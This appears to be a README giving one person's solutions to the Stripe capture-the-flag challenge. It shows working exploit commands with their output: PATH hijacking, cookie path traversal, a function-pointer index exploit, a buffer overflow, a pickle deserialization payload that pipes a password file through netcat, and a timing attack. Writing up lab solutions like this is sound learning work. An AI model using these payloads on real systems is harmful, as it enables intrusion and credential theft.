 Stripe CTF
==========

https://stripe.com/blog/capture-the-flag

My solutions to the Stripe CTF solution are as follows.
Note that in many cases the code isn't very robust or workable. But was
the minimum needed to complete the level.

Level 01
--------

On observing that the system call within level01.c made an unchecked
call to 'date' without a full path specified I created a local date
file and set it to the local path.

    level01@ctf:/tmp/tmp.8N0qqvoaVu$ echo 'cat /home/level02/.password' > date
    level01@ctf:/tmp/tmp.8N0qqvoaVu$ export PATH=/tmp/tmp.8N0qqvoaVu:$PATH
    level01@ctf:/tmp/tmp.8N0qqvoaVu$ chmod a+x date
    level01@ctf:/tmp/tmp.8N0qqvoaVu$ /levels/level01
    Current time: kxlVXUvzv

Level 02
--------

Level 2 uses the contents of the client's cookie to read a file without
escaping the contents. Via a browser I modified the cookie to the following 
and the password was printed on reloading the page.

    Change cookie to ../../home/level03/.password
    Or0m4UX07b

Level 03
--------

I had never performed any sort of pointer arithmatic outside of an
introductory CS course. So this was certainly a challenge for me.
Outside of level 6 I think I spent more time on this level than any of
the other ones.

On reading level 3's source code I noticed that it was executing the
function via an array of pointers to functions. However the selection
mechanism used an argument which only checked for positive numbers >= 3.

After spending some time with gdb I realized you could select a negative
number which pointed to a specific location in the string buffer you
pass as an argument. After some fiddling I provided the memory
address of the deprecated run function.

    level03@ctf4:/tmp/tmp.uuCAtV5Uog$ /levels/level03 -21 'cat /home/level04/.password;'$'\x5b'$'\x87'$'\x04'$'\x08'
    i5cBbPvPCpcP
    sh: [: not found

Level 04
--------

Like Level 03 I had never performed a buffer overflow before. I did some
searching and came across the following which amounts to a [buffer
overflows for dummies](http://biblio.l0t3k.net/b0f/en/BOFwithperl.txt). With some tweaking I was
able to make it work for the level 4 binary. It works about 50% of the
time. From what I understand Linux uses some sort of stack randomization
to prevent this sort of attack. From reading other reports online there
is a way to get a deterministic solution but I didn't take the time to
explore that.

    Offset:-994Address: 0xffa368fe
    Executing
    Buffer:57200
    Buffer:0
    $ 
    $ whoami
    level05
    $ cat /home/level05/.password
    fzfDGnSmd317

Level 05
--------

After looking at the python web server and running it locally. I noticed
that it wasn't properly escaping user input and allowed me to pass an
argument with executable code. I pickled up a simple
exploit, started a netcat and passed it through.

    level05@ctf4:/tmp/tmp.7mKxYf6M1c$ nc -l 9333 &
    [1] 24599
    level05@ctf4:/tmp/tmp.7mKxYf6M1c$ 
    level05@ctf4:/tmp/tmp.7mKxYf6M1c$ curl localhost:9020 -d "DATA; job: cos
    system
    (S'nc localhost 9333 < /home/level06/.password'
    tR.'
    tR.
    "
    SF2w8qU1QDj
    {
        "result": "Job timed out"
    }
    [1]+  Done                    nc -l 9333

Level 06
--------

Of all the challenges this one
took the most time. I had heard of and felt I understood the
implementation of a timing attack before but had no idea how hard it would be
to actually implement.

First I tried a quick program written in ruby to test the time taken to run
the command, however I saw very little difference in how fast something
failed. Given that I was initially testing for the difference between 1
and two variable checks and the precision of the ruby clock was only in
nanoseconds this failed right away.

Then I tried an [implementation](https://github.com/dividuum/stripe-ctf) that already existed online simply to
see if it could work given that many of the servers were under heavy
load and were being actively fork bombed. However the solution
above failed to work for me as it seems to depend on the binary forking
and reporting failure almost immediately which I wasn't even able to
replicate locally.

Finally I settled on passing very large arguments to slow down the
evaluation, similar to the solution above. Then timed each char read in
microseconds via a small c program. The fork operation takes slightly
longer to run than a normal character check and therefore with
microsecond precision you can determine where the failure occured.

This solution worked perfectly for me locally but I had to tune it on
Stripe's servers in order to get it to work. I'm not sure if I was
reading the buffer incorrectly, the machine was overloaded or if my code
just runs in a way that I'm not expecting. Either way with some fine
tuning and extra sanity checks I was able to get it to run against the password file
and produce the answer.

    level06@ctf5:/tmp/tmp.2eCZvV2CuJ$ ruby ruby_wrapper.rb 
    Suffix: 130772
    {"t"=>4}
    Answer: t
    {"h"=>5}
    Answer: th
    {"e"=>5}
    Answer: the
    {"f"=>4}
    Answer: thef
    {"l"=>5}
    Answer: thefl
    {"a"=>5}
    Answer: thefla
    {"g"=>5}
    Answer: theflag
    {"l"=>5}
    Answer: theflagl
    {"0"=>4}
    Answer: theflagl0
    {"e"=>4}
    Answer: theflagl0e
    {"F"=>4}
    Answer: theflagl0eF
    {"T"=>5}
    Answer: theflagl0eFT
    {"t"=>5}
    Answer: theflagl0eFTt
    {"I"=>1, "T"=>5}
    Answer: theflagl0eFTtT
    {"5"=>5}
    Answer: theflagl0eFTtT5
    {"o"=>5}
    Answer: theflagl0eFTtT5o
    {"i"=>5}
    Answer: theflagl0eFTtT5oi
    {"0"=>4}
    Answer: theflagl0eFTtT5oi0
    {"n"=>5, "r"=>1}
    Answer: theflagl0eFTtT5oi0n
    {"O"=>5}
    Answer: theflagl0eFTtT5oi0nO
    {"T"=>5}
    Answer: theflagl0eFTtT5oi0nOT
    {"x"=>5, "e"=>1}
    Answer: theflagl0eFTtT5oi0nOTx
    {"O"=>5}
    Answer: theflagl0eFTtT5oi0nOTxO
    {"5"=>5}
    Answer: theflagl0eFTtT5oi0nOTxO5
    {}
    Answer: theflagl0eFTtT5oi0nOTxO5


    level06@ctf5:/tmp/tmp.2eCZvV2CuJ$ /levels/level06 /home/the-flag/.password theflagl0eFTtT5oi0nOTxO5
    Welcome to the password checker!
    ........................
    Wait, how did you know that the password was theflagl0eFTtT5oi0nOTxO5?

The Flag
--------

You're able to login as the flag user but I couldn't find anything
special or a secret next level. Perhaps I didn't look hard enough?

    the-flag@ctf5:/tmp/tmp.qCU4Sz2RhR$
